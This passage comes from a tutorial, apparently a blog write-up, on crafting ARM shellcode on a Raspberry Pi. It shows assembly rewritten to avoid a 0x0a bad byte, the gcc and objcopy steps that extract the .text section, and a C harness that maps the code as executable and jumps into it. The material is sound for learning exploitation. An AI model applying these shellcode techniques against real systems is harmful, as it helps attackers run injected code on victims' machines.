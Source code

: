 {% call marginnotes() %}
Bypassing the filters can be incredible complex. Here is article about
[Alphanumeric RISC ARM Shellcode](https://web.archive.org/web/2020*/http://www.phrack.org/issues/66/12.html).
{% endcall %}

`beq` has a 0x0a as the first byte so we have to rewrite the snippet
to:

```nasm
    cmp r0, #0
    bne Lparent_or_error
    b Lchild
```


## Compilation

We compile the assembly into an object file with `gcc`{.cpp} (in a Raspbian)
and then we extract the `.text` section:

```shell
pi@raspberrypi:~$ gcc -c -o egg.o egg.s
pi@raspberrypi:~$ objcopy -O binary --only-section=.text egg.o egg.text
```

The assembly can be found [here]({{ asset('egg.s') }}).

## Testing

It is always a good idea to test the shellcode *separately* from the
exploitation.

For this [we can create a small C program]({{ asset('test-egg.c') }})
to load the *egg* from a file
into a buffer with *permission for execution* and then jump into it:

```cpp
    char *buf;

    posix_memalign(&buf, ALIGN, fsize);
    fread(buf, 1, fsize, f);
    mprotect(buf, fsize, PROT_READ|PROT_WRITE|PROT_EXEC);

    ((void(*)())buf)();
```

This is an example:

```shell
pi@raspberrypi:~$ ./test-egg egg.text
Egg loaded at 0x24000-0x2409
```

{% call marginnotes() %}
The `good` and `bad` labels were put by me. Sorry, `strace`{.cpp} is not so smart.
{% endcall %}
